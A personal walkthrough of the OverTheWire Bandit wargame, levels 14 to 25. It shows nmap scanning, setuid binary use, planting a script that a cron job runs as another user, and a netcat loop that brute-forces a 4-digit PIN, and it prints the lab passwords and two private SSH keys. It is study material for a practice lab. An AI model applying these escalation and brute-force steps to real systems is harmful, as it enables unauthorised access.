telnet localhost 30000
#+end_src

This opens a connection, and I can input text.
I typed the password, ENTER, and voilà:

8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

*** 15

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30001 on localhost using SSL/TLS encryption.
#+end_quote

I connected to the server/port using ~openssl~.
It's the same procedure as the telnet, but Secure®.

#+begin_src shell
openssl s_client -crlf -connect localhost:30001
#+end_src

kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx

*** 16

#+begin_quote
The credentials for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000.
First find out which of these ports have a server listening on them.
Then find out which of those speak SSL/TLS and which don’t.
There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.
#+end_quote

#+begin_example
bandit16@bandit:~$ nmap -p 31000-32000 localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 00:02 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00010s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE SERVICE
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown
#+end_example

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -crlf -connect localhost:$p; done;
#+end_src

Testing connection:

| 31046 | Secure  Renegotiation  IS  NOT  supported |
| 31518 |                                           |
| 31691 |                                           |
| 31790 |                                           |
| 31960 |                                           |

I was having a problem:

#+begin_example
    Extended master secret: no
    Max Early Data: 0
---
read R BLOCK
kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx    <---- sent the current passwor
KEYUPDATE                           <---- received this message
#+end_example

This happened because the sent data started with a *k*, that has a meaning in the /interactive/ session.

[[https://stackoverflow.com/a/58574851][This answer on Stackoverflow]] suggests to avoid using the interactive session with ~ign_eof~:

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -ign_eof -crlf -connect localhost:$p; done;
#+end_src

The correct one was:

#+begin_src shell
openssl s_client -ign_eof -crlf -connect localhost:31790
#+end_src

Got a private key :)

#+begin_src id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit17
#+end_src

#+RESULTS:

*** 17

x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO

Got the 'Byebye'.

Checking out the next Bandit, as instructed.
*** 18

I was being automatically disconnected from the server because there was a directive in ~.bashrc~ for that:

#+begin_quote
someone has modified .bashrc to log you out when you log in with SSH.
#+end_quote

Then I found out that I can run a command via SSH, and that it may run before Bash did his stuff:

#+begin_quote
When you connect via SSH and specify a command to execute directly (e.g., ssh user@host "ls -l"), a non-interactive shell is often used, and your ~/.bashrc or ~/.profile might not be fully sourced, depending on the shell and the command.
#+end_quote

I did this (intructions told about ~readme~):

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -l bandit18 "cat readme"
#+end_src

cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

**** 19

A princípio fiquei confuso.
Achei que o programa iria /modificar/ o proprietário do arquivo com a senha.

Quando rodei o comando para saber o que fazer (conforme instruído), recebi a seguinte saída:

#+begin_src shell
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
#+end_src

Eu não li a primeira linha da saída e achei que tinha que descobrir o meu ~id~ numérico do user ~bandit19~, pra daí usar o comando para setar esse usuário como proprietário do arquivo com a senha.

Depois eu acabei rodando o comando de novo e li a primeira linha.
Daí rodei:

#+begin_src shell
bandit19@bandit:/etc/bandit_pass$ ~/bandit20-do cat bandit20
#+end_src

e obtive a senha:

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

O executável ~bandit20-do~ foi setado com o user bandit20 e o meu grupo.

#+begin_src shell
bandit19@bandit:~$ stat bandit20-do
  File: bandit20-do
  Size: 14884           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577828      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11020/bandit20)   Gid: (11019/bandit19)
                           ^^^         ^^^^^^^^    ^^^         ^^^^^^^^
Access: 2025-10-10 17:14:19.958793247 +0000
Modify: 2025-08-15 13:16:01.732011756 +0000
Change: 2025-08-15 13:16:01.734011763 +0000
 Birth: 2025-08-15 13:16:01.731011751 +0000
#+end_src

Como eu faço parte do grupo do arquivo, eu posso executá-lo e como ele é do 20, eu posso ler o arquivo da próxima senha, que é dele.
*** 20

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

#+begin_quote
There is a setuid binary in the homedirectory that does the following:
#+end_quote

The "setuid binary" is ~suconnect~:

#+begin_example
bandit20@bandit:~$ ls -lah
total 36K
drwxr-xr-x   2 root     root     4.0K Aug 15 13:16 .
drwxr-xr-x 150 root     root     4.0K Aug 15 13:18 ..
-rw-r--r--   1 root     root      220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root     3.8K Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root      807 Mar 31  2024 .profile
-rwsr-x---   1 bandit21 bandit20  16K Aug 15 13:16 suconnect

bandit20@bandit:~$ stat suconnect
  File: suconnect
  Size: 15608           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577830      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11021/bandit21)   Gid: (11020/bandit20)
Access: 2025-10-10 17:04:06.585772107 +0000
Modify: 2025-08-15 13:16:02.922063839 +0000
Change: 2025-08-15 13:16:02.923016449 +0000
 Birth: 2025-08-15 13:16:02.921016442 +0000
#+end_example

#+begin_quote
- it makes a connection to localhost on the port you specify as a commandline argument.
- It then reads a line of text from the connection and compares it to the password in the previous level (bandit20).
- If the password is correct, it will transmit the password for the next level (bandit21).
#+end_quote

Now, I am not sure if it
1. /connects/ to an existing connection.
2. /creates/ a new connection, or if it just

Let us try first to connect to an existing connection.
We get a list of the ports---the "simple" way:

#+begin_example
bandit20@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:21 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

For the bandit19 user is the same:

#+begin_example
bandit19@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:18 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

I tried connecting both ~suconnect~ and ~telnet~ to port 1111 (has "social" in the name); suconnect with '&'; and then send the password through telnet.
I expect to receive an answer from suconnect, because it is in the same "chat".

#+begin_src shell
telnet 1111 &
telnet 1111
Hello, there!
#+end_src

I didn't get the message to be echoed on the screen, as I expected.
It says something like "job /stopped/"; I wonder if I need to keep it running in the background.

Let's try a different port: 30000.

#+begin_src shell
bandit20@bandit:~$ ./suconnect 30000 &
[1] 69995
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Wrong! Please enter the correct current password.
Connection closed by foreign host.
#+end_src

I believe this is the same guy from a previous Bandit.
Let's test it.
That Bandit is 14.
Let's re-run it:

#+begin_src shell
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS
Correct!
8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

Connection closed by foreign host.
#+end_src

Yep!
It is the same, and it works for the user bandit20 too.

Apparently, two processes cannot listen to the same port (usually).
I'll try running suconnect as a daemon, and telnet as a Client.
I need a port.

These are all the ports available:

|          | bandit20@bandit:~$ nmap -p 0-65535 localhost                       |
|          | Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 17:37 UTC |
|          | Nmap scan report for localhost (127.0.0.1)                         |
|          | Host is up (0.000097s latency).                                    |
|          | Not shown: 65506 closed tcp ports (conn-refused)                   |
| WORKS?   | PORT      STATE SERVICE                                            |
|          | 22/tcp    open  ssh                                                |
|          | 1111/tcp  open  lmsocialserver                                     |
|          | 1840/tcp  open  netopia-vo2                                        |
|          | 2220/tcp  open  netiq                                              |
|          | 2221/tcp  open  rockwell-csp1                                      |
|          | 2223/tcp  open  rockwell-csp2                                      |
|          | 2224/tcp  open  efi-mg                                             |
|          | 2225/tcp  open  rcip-itu                                           |
|          | 2226/tcp  open  di-drm                                             |
|          | 2227/tcp  open  di-msg                                             |
|          | 2228/tcp  open  ehome-ms                                           |
|          | 2230/tcp  open  queueadm                                           |
|          | 2231/tcp  open  wimaxasncp                                         |
|          | 2232/tcp  open  ivs-video                                          |
|          | 4091/tcp  open  ewinstaller                                        |
|          | 4258/tcp  open  vrml-multi-use                                     |
|          | 4321/tcp  open  rwhois                                             |
|          | 5842/tcp  open  reversion                                          |
|          | 8000/tcp  open  http-alt                                           |
| bandit14 | 30000/tcp open  ndmps                                              |
| n        | 30001/tcp open  pago-services1                                     |
| bandit25 | 30002/tcp open  pago-services2                                     |
|          | 31046/tcp open  unknown                                            |
|          | 31518/tcp open  unknown                                            |
|          | 31691/tcp open  unknown                                            |
|          | 31790/tcp open  unknown                                            |
|          | 31960/tcp open  unknown                                            |
|          | 50001/tcp open  unknown                                            |
|          | 51790/tcp open  unknown                                            |
|          | 60917/tcp open  unknown                                            |

Given that bandit15 uses port 30000, and bandit25 uses port 30002, I bet the port I need for this Bandit is 30001.

I tried first running succonect on the background and sending the password via nc.
But it closes the connection.

#+begin_example
bandit20@bandit:~$ ./suconnect 30001 &
[1] 290352

bandit20@bandit:~$ nc localhost 30001
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
bandit20@bandit:~$                       <--- It closes the connection
#+end_example

I tried using ~screen~ to run the daemon, and another session to connect to it.

I created a dedicated session for ~suconnect~:

#+begin_src shell
screen -S suconnect
#+end_src

Then I started the ~suconnect~ daemon.

#+begin_src shell
./suconnect 30001
#+end_src

Then I detached the screen session with ~C-a d~.

Then I connected and sent the password using ~nc~.

#+begin_src shell
nc localhost 30001
#+end_src

I was disconnected, as expected.

Then I reattached to the ~screen~ running ~suconnect~ with

#+begin_src shell
screen -x suconnect
#+end_src

I expected to see the next password as the output there, but there was no output.

Future me: up until now, I had tried:
- ~suconnect~ as the daemon
  - using already opened ports

| Daemon    | Open new port | Use existing port |
|-----------+---------------+-------------------|
| suconnect |               | Doesn't work      |
| nc        |               |                   |

I tried connecting with ~suconnect~ to every port in the interval 0--65535.
It connected to some, but I couldn't tell if it was connecting to an open port or opening a new port.

Then I came across [[https://stackoverflow.com/a/79726454][this answer on Stackoverflow]] that teaches hot to solve it.
According to this answer, ~nc~ will be the daemon, and ~suconnect~ will be the client.
The answer instructs to use the parameters ~-lnvp~ for ~nc~.

I first tried to use port 30001.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30001
nc: Address already in use
#+end_example

Then I tried a port not reported by ~nmap~ above.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30003
Listening on 0.0.0.0 30003
#+end_example

Then I dettached and attached to ~suconnect~'s ~screen~.
I started ~suconnect~ there using the same port.

#+begin_src shell
./suconnect 30003
#+end_src

No output.

Back on ~nc~'s screen, I got the message of a received connection, probably from ~suconnect~.

#+begin_example
Connection received on 127.0.0.1 54356
#+end_example

I then sent the current password, and got the next one as a reply.

#+begin_example
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
EeoULMCra2q0dSkYj561DX7s1CpBuOBt
#+end_example

Back on ~suconnect~'s ~screen~:

#+begin_example
Read: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Password matches, sending next password
#+end_example

After reading this from ~man lc~:

#+begin_example
-l      Listen for an incoming connection rather than initiating a con‐
        nection to a remote host.  The destination and port to listen on
        can be specified either as non-optional arguments, or with op‐
        tions -s and -p respectively.  Cannot be used together with -x or
        -z.  Additionally, any timeouts specified with the -w option are
        ignored.
#+end_example

I tried with just ~nc -l~, and it worked the same.

I also tried still using ~nc~ as the daemon, but without any parameter.

#+begin_example
bandit20@bandit:~$ nc 30003
nc: missing port number
#+end_example

Then with the host.

#+begin_example
bandit20@bandit:~$ nc localhost 30003
bandit20@bandit:~$
#+end_example

Apparently it did not create a connection.
I still tried starting ~suconnect~.

#+begin_example
bandit20@bandit:~$ ./suconnect 30003
Could not connect
#+end_example

This shows that it needs the ~-l~ parameter.

I looked at the manpage for the meaning of the ~nvp~ parameters.

#+begin_example
-n      Do not perform domain name resolution.  If a name cannot be re‐
        solved without DNS, an error will be reported.
#+end_example

I don't see why this would affect the command, as no host was used.

#+begin_example
-v      Produce more verbose output.
#+end_example

Non-essential.

#+begin_example
-p source_port
        Specify the source port nc should use, subject to privilege re‐
        strictions and availability.
#+end_example

Why does it work witout specifying 30003 as a /port/ with ~p~?
The only mandatory parameter so far is ~l~, which needs a destination and port.

From the manpage:

#+begin_example
In general, a destination must be specified, unless the -l option is given (in which case the local host is used).
#+end_example

Now, the only mandatory parameter is the port, so there is no reason to make ~-p~ mandatory.

EeoULMCra2q0dSkYj561DX7s1CpBuOBt
*** 21

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.
#+end_quote

The files in ~/etc/cron.d/~ are:

#+begin_example
bandit21@bandit:/etc/cron.d$ ls -lah
total 60K
drwxr-xr-x   2 root root 4.0K Aug 15 13:19 .
drwxr-xr-x 128 root root  12K Aug 29 21:51 ..
-r--r-----   1 root root   47 Aug 15 13:16 behemoth4_cleanup
-rw-r--r--   1 root root  123 Aug 15 13:09 clean_tmp
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit22
-rw-r--r--   1 root root  122 Aug 15 13:16 cronjob_bandit23
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit24
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-r--r-----   1 root root   48 Aug 15 13:17 leviathan5_cleanup
-rw-------   1 root root  138 Aug 15 13:17 manpage3_resetpw_job
-rwx------   1 root root   52 Aug 15 13:19 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 31  2024 .placeholder
-rw-r--r--   1 root root  396 Jan  9  2024 sysstat
#+end_example

To get the file contents I used ~cat~:

#+begin_example
bandit21@bandit:/etc/cron.d$ find . -exec echo {} \; -exec cat {} \; -exec echo "" \;
#+end_example

This guy is the most suspicious one.

#+begin_example
./sysstat
# The first element of the path is a directory where the debian-sa1
# script is located
PATH=/usr/lib/sysstat:/usr/sbin:/usr/sbin:/usr/bin:/sbin:/bin

# Activity reports every 10 minutes everyday
5-55/10 * * * * root command -v debian-sa1 > /dev/null && debian-sa1 1 1

# Additional run at 23:59 to rotate the statistics file
59 23 * * * root command -v debian-sa1 > /dev/null && debian-sa1 60 2
#+end_example

#+begin_quote
# The first element of the path is a directory where the debian-sa1
# script is located
#+end_quote

The contents of "the first element of the path", ~/usr/lib/sysstat/~, are:

#+begin_example
bandit21@bandit:/usr/lib/sysstat$ alias ls='ls -lah'
bandit21@bandit:/usr/lib/sysstat$ ls
total 104K
drwxr-xr-x  2 root root 4.0K Jul 31 10:05 .
drwxr-xr-x 86 root root 4.0K Aug 15 13:10 ..
-rwxr-xr-x  1 root root  446 Jan  9  2024 debian-sa1
-rwxr-xr-x  1 root root 1.8K Jan  9  2024 sa1
-rwxr-xr-x  1 root root 1.6K Jan  9  2024 sa2
-rwxr-xr-x  1 root root  82K Jan  9  2024 sadc
#+end_example

It didn't take anywhere interesting.

After some fiddling around:

#+begin_example
bandit21@bandit:~$ cat /cat /usr/bin/cronjob_bandit22.sh
cat: /cat: No such file or directory
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
#+end_example

The passwords are in those ~/etc/bandit_pass/banditXX~ files.
This cron job is copying the password I need, ~bandit22~'s, to a temp file.
To see it, I did:

#+begin_example
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
#+end_example

and voilà:

tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
*** 22

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
#+end_quote

The contents of ~/etc/cron.d/~ should be the same.
I'll start by investigating ~bandit22~'s script.
This is the job for the bandit:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
​* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
#+end_example

and this is the contents of that script:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat  /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
#+end_example

It uses the username ~bandit24~ (that would be gotten from ~whoami~) to create a target filename in a somewhat sophisticated process involving ~mdsum~.

I simulate the results of that command to get the script's real target:

#+begin_example
bandit22@bandit:/etc/cron.d$ myname=bandit23; mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:/etc/cron.d$ echo $mytarget
8ca319486bfbbc3663ea0fbe81326349
#+end_example

Then I use that to ~cat~ the password from that target file:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat /tmp/$mytarget
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
#+end_example

Password obtained.

0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
*** 23

#+begin_example
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script.
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#+end_example

I go straight to ~bandit24~'s script:

#+begin_example
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
----------------------------------------------------------------------
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
#+end_example

I analyze it piece by piece:

#+begin_example
myname=$(whoami)
#+end_example

Sets ~myname~ to ~bandit24~.

#+begin_example
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        <<process each file>>
    fi
done
#+end_example

It processes each file in ~/var/spool/bandit24/foo~.
I tried reading the contents of that directory, but got ~Permission denied.~

The processing of each file occurs as follows:

~<<process each file>> +≡~

#+begin_src x :noweb-ref process each file
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
rm -f ./$i
#+end_src

It runs /my/ scripts inside ~/var/spool/bandit24/foo~.
I will try to inject a script there that somehow gives me ~bandit24~'s password.

#+begin_src shell
#!/bin/bash
MY_PASS_FILE=/etc/bandit_pass/bandit24
TARGET=zoiaum

cat ${MY_PASS_FILE} > ${TARGET}
cp ${TARGET} /tmp
#+end_src

I created a file ~/tmp/zoinho.sh~, ~chmod +x~ it, and copied it to ~/var/spool/bandit24/foo~.
Then after typing this, I went to check if I got the password.

#+begin_example
bandit23@bandit:/tmp$ cat zoiaum
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
#+end_example

That file was created by ~bandit24~, and I was curious /why/ I have permission to /read/ it.
I ran a ~stat~ on it:

#+begin_example
bandit23@bandit:/tmp$ stat zoiaum
  File: zoiaum
  Size: 33              Blocks: 8          IO Block: 4096   regular file
Device: 259,1   Inode: 87017       Links: 1
Access: (0664/-rw-rw-r--)  Uid: (11024/bandit24)   Gid: (11024/bandit24)
Access: 2025-10-11 21:55:30.532352401 +0000
Modify: 2025-10-11 21:55:01.567169570 +0000
Change: 2025-10-11 21:55:01.567169570 +0000
 Birth: 2025-10-11 21:55:01.565351402 +0000
#+end_example

I can see that, the file was created with read permission for everybody, and that is why I am allowed to read it.

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
*** 24

#+begin_quote
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
#+end_quote

I try first to connect with ~nc~ to port 30002.

#+begin_quote
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
#+end_quote

Ok, separate password and pincode by a space.

I go to the manpage for ideas on how to bruteforce it without creating new connections each time.

#+begin_example
nc localhost 30002 << EOF
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
EOF
#+end_example

This works, but I would have to create a huge input string with all the possible combinations.
Can I do it programatically?
Back to the manpage.

Couldn't find any way to build the combinations programatically without having to create a file.

My first idea was to use ~yes~ to create copies of the password, then ~seq~ for the pin codes, then another command to concatenate them in columns, and pass it to ~nc~'s connection to port 30002.

I could not find a command to concatenate the columns on Info coreutils.

Then googling I stumbled upon ~COMMAND | while read LINE; do echo $LINE~.

It works like this: ~COMMAND | while PREDICATE; BODY;~.
The redirection with | gives COMMAND's output to ~while~.
~while~ consumes that output one line per iteration.
PREDICATE is evaluated once per iteration.
In this case, it is the result of ~read LINE~.
~read~ is programmed to assign the value of its input to the variable LINE.
~read~ makes that line accessible via $LINE.
Note that it could be any other name, instead of "LINE"---it is just a variable name.

I saw that I could use this to concatenate the password with the pin codes with:

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002
#+end_example

I ran it in the server.

#+begin_example
bandit24@bandit:~$ seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002

...

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

I was curious to know the correct pin code.
I redirected the output to a file, and counted the lines of that file, then tried guessing some pin codes in that neighborhood.
I could have done some math :P

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 > /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ wc -l /tmp/tmp.kPTagzvdT7
9166 /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ head /tmp/tmp.kPTagzvdT7
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
b

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9164
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9163
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9162
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

The pincode is 9162.

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
*** 25

#+begin_quote
Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not /bin/bash, but something else.
Find out what it is, how it works and how to break out of it.


Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd
#+end_quote

There's a private key in bandit25's home dir:

~id_rsa_overthewire.org-bandit26~ ≡

#+begin_src ssh-key
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
